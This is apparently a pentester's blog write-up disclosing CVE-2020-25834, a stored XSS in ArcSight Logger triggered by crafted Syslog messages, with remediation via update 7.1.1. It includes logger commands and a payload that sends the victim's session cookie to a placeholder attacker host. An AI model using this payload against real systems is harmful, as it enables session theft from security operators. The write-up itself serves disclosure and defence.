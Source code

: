 ```yaml
---
title: "CVE-2020-25834 ArcSight Logger Stored XSS"
date: 2020-11-26T10:56:00+02:00
type: post
author: Hidde Smit
description: CVE-2020-25834 discovered by Hidde Smit
summary: Write-up of a stored XSS delivered via Syslog.
draft: false
---
```


# ArcSight
A recent pentest engagement was focused on the security of ArcSight SIEM solutions. The pentest scope was:

- ArcSight Management Center  
- ArcSight Logger  
- ArcSight Connector  

ArcSight Management Center is a centralized security management center that manages large deployments of ArcSight solutions. Newly discovered devices, connectors and loggers are listed in the Management Center web-interface.

ArcSight Logger is a comprehensive log management solution for easier compliance, efficient log search, and secure storage. In short, ArcSight Logger is a SIEM Log Management tool. Presenting users with a dashboard in which logs are presented, for easy analysis.

Logs are sent to an ArcSight Connector. A Connector automates the process of collecting and managing logs from any device and in any format through normalization and categorization of logs into a unified format known as Common Event Format (CEF). An ArcSight Connector parses and forwards the logs to the ArcSight Logger.

The vulnerability described below can be performed by a malicious actor who is on the same network as the ArcSight Logger.

## Vulnerability write-up
In collaboration with [WBSec](https://www.wbsec.nl/), Cyber Eagle has discovered a stored XSS in ArcSight Logger. This vulnerability has been assigned to [CVE-2020-25834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25834).

The ArcSight Logger has a web-interface present on TCP port 9000. ArcSight Connector has an open Syslog port available on TCP/UDP 514. 

The first step is to try and get Syslog events parsed by ArcSight Logger. This was quite simple and can be performed with any Linux system having Syslog packages installed.
The command below can be used to send Syslog events to the ArcSight Connector: 

`logger -n <host> -P 514 -T "example message"`

When sending a Syslog event, the source host will be displayed in ArcSight Manager and the Syslog event will be parsed and displayed in ArcSight Logger.
First thing that comes to mind is to try and send a HTML injection payload. Command below results in HTML injection in ArcSight Logger:

`logger -n <host> -P 514 -T "<h1>test</h1>"`

To retrieve the parsed Syslog event. You need to visit the Analyse page in ArcSight Logger and filter on:

`dvchost=<attacker_hostname>`

When successfully filtered you will notice that your Syslog event has been parsed and is displayed in 'heading 1' style.

The Content-Security-Policy in ArcSight Logger uses the directives 'unsafe-inline' and 'unsafe-eval'. This means that JavaScript code can be executed inline, remote JavaScript sources can't be used because of 'script-src' 'self'.
The 'session_string' cookie which is needed for authenticated sessions is not protected with the HttpOnly cookie flag.

Using this knowledge, the following command can be used to send a stored XSS payload which will successfully steal cookies:

`logger -n <host> -P 514 -T "<img src=x onerror=this.src='http://<attacker_host>/?c='+document.cookie>"`

![XSS example](/images/blog/xss.png)

Attempts have been made to perform the same XSS attack in ArcSight Logger classic search and ArcSight Management Center. However, output was successfully filtered.

## Remediation
Micro Focus has released update 7.1.1 for ArcSight Logger which succesfully mitigates this vulnerability and some other vulnerabilities. You can find the release notes [here](https://community.microfocus.com/t5/Logger/Logger-Release-Notes-7-1-1/ta-p/2837600).